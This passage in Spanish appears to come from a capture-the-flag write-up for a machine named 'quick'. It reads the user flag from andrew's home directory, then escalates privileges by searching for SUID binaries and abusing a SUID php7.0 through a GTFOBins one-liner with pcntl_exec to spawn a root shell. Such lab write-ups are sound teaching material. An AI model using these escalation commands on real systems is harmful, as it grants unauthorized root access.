 En este punto podemos leer la flag de user del directorio del usuario **andrew** ya que tiene permisos de lectura para otros

![](/assets/img/quick/6.png)

## Escalada de privilegios

Si buscamos por binarios SUID encontraremos el PHP 7.0:

```bash
find / -perm -u=s -type f 2>/dev/null

/usr/bin/php7.0
```

Haciendo una pequeña busqueda en GFTOBins  encontraremos una forma de hacernos root ingresando esto:

```bash
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```
Pero no es necesario, lo unico que debemos de ejecutar es 

```bash
/usr/bin/php7.0 -r "pcntl_exec('/bin/bash', ['-p']);"
```

Ya seremos root y podemos leer la flag

![](/assets/img/quick/7.png)
